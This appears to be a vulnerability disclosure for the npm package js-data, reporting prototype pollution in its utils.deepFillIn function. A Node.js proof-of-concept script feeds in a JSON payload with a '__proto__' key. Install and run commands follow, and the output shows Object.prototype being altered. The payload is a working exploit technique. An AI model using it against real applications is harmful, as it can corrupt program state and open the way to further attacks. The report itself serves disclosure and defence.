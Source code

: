 # Description

`js-data` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
const js = require("js-data");
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
js.utils.deepFillIn(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i js-data # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
